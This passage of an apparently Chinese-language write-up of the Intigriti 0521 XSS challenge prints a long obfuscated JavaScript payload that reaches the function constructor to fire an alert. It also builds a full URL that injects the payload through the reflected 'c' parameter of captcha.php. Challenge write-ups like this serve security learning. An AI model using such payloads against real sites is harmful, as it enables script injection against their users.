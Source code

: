 output(長度 851):

\[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]\`\_${\`${0/0}\`\[1\]+\`${e}\`\[21\]+\`e\`+\`${e}\`\[13\]+\`${\`\`+{}}\`\[6\]+\`${\[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[14\]+\`${\`\`\[0\]}\`\[2\]+\`${\`\`+{}}\`\[1\]+\`${\`\`+{}}\`\[5\]+\`${\`\`\[0\]}\`\[0\]+\`${e}\`\[23\]+\`e\`+\`${\`\`\[0\]}\`\[1\]+\`${\`\`+{}}\`\[6\]+\`.\`+\`${\`\`\[0\]}\`\[2\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[23\]+\`${0/0}\`\[1\]+\`${\`\`\[0\]}\`\[5\]+\`${\`\`\[0\]}\`\[1\]+\`${\[\]\[\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[1\]+\`${\`\`\[0\]}\`\[1\]+\`${e}\`\[18\]+\`${\`\`+{}}\`\[6\]+\`${e}\`\[13\]+\`${\`\`\[0\]}\`\[0\]+\`${\`\`+{}}\`\[5\]+\`${\`\`+{}}\`\[6\]+\`${\`\`+{}}\`\[1\]+\`${e}\`\[13\]\]}\`\[15\]}\`\`\`

把上面這整串貼到網頁上的 input 然後按下提交，就會看到 alert 跳出來囉！

![](/img/intigritis-0521-xss-challenge-writeup-b859a65acc48/0__ztgfHdjYQDJnAxUK.png)

做到這邊之後我就很開心地去送答案，結果得到了一個回覆，跟我說這是 self-XSS，提示我說可以多往 php 那邊去研究一點。

沒錯，我都忘記這是一個 self-XSS 了，因為需要自己把這串 payload 貼在 input 上面送出，就有點像是使用者必須自己把惡意程式碼貼過來一樣，這種通常沒辦法構成具有嚴重性的漏洞。

因此我就往 PHP 那邊去看，隨便試了一下發現 `c=xxx` 的內容會直接反映在 c.value 上，所以只要把上面那一串放到網址上面去就好了，變成：

[https://challenge-0521.intigriti.io/captcha.php?c=\[\]\[\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${\`\`\[0\]}\`\[1\]%2b\`${e}\`\[18\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${e}\`\[13\]%2b\`${\`\`\[0\]}\`\[0\]%2b\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${e}\`\[13\]\]\[\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${\`\`\[0\]}\`\[1\]%2b\`${e}\`\[18\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${e}\`\[13\]%2b\`${\`\`\[0\]}\`\[0\]%2b\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${e}\`\[13\]\]\`\_${\`${0/0}\`\[1\]%2b\`${e}\`\[21\]%2b\`e\`%2b\`${e}\`\[13\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${\[\]\[\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${\`\`\[0\]}\`\[1\]%2b\`${e}\`\[18\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${e}\`\[13\]%2b\`${\`\`\[0\]}\`\[0\]%2b\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${e}\`\[13\]\]}\`\[14\]%2b\`${\`\`\[0\]}\`\[2\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`\[0\]}\`\[0\]%2b\`${e}\`\[23\]%2b\`e\`%2b\`${\`\`\[0\]}\`\[1\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`.\`%2b\`${\`\`\[0\]}\`\[2\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${e}\`\[23\]%2b\`${0/0}\`\[1\]%2b\`${\`\`\[0\]}\`\[5\]%2b\`${\`\`\[0\]}\`\[1\]%2b\`${\[\]\[\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${\`\`\[0\]}\`\[1\]%2b\`${e}\`\[18\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${e}\`\[13\]%2b\`${\`\`\[0\]}\`\[0\]%2b\`${\`\`%2b{}}\`\[5\]%2b\`${\`\`%2b{}}\`\[6\]%2b\`${\`\`%2b{}}\`\[1\]%2b\`${e}\`\[13\]\]}\`\[15\]}\`\`\`](https://challenge-0521.intigriti.io/captcha.php?c=[][`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7B``[0]%7D`[1]%2b`$%7Be%7D`[18]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7Be%7D`[13]%2b`$%7B``[0]%7D`[0]%2b`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7Be%7D`[13]][`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7B``[0]%7D`[1]%2b`$%7Be%7D`[18]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7Be%7D`[13]%2b`$%7B``[0]%7D`[0]%2b`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7Be%7D`[13]]`_$%7B`$%7B0/0%7D`[1]%2b`$%7Be%7D`[21]%2b`e`%2b`$%7Be%7D`[13]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7B[][`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7B``[0]%7D`[1]%2b`$%7Be%7D`[18]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7Be%7D`[13]%2b`$%7B``[0]%7D`[0]%2b`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7Be%7D`[13]]%7D`[14]%2b`$%7B``[0]%7D`[2]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``[0]%7D`[0]%2b`$%7Be%7D`[23]%2b`e`%2b`$%7B``[0]%7D`[1]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`.`%2b`$%7B``[0]%7D`[2]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7Be%7D`[23]%2b`$%7B0/0%7D`[1]%2b`$%7B``[0]%7D`[5]%2b`$%7B``[0]%7D`[1]%2b`$%7B[][`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7B``[0]%7D`[1]%2b`$%7Be%7D`[18]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7Be%7D`[13]%2b`$%7B``[0]%7D`[0]%2b`$%7B``%2b%7B%7D%7D`[5]%2b`$%7B``%2b%7B%7D%7D`[6]%2b`$%7B``%2b%7B%7D%7D`[1]%2b`$%7Be%7D`[13]]%7D`[15]%7D``+`)
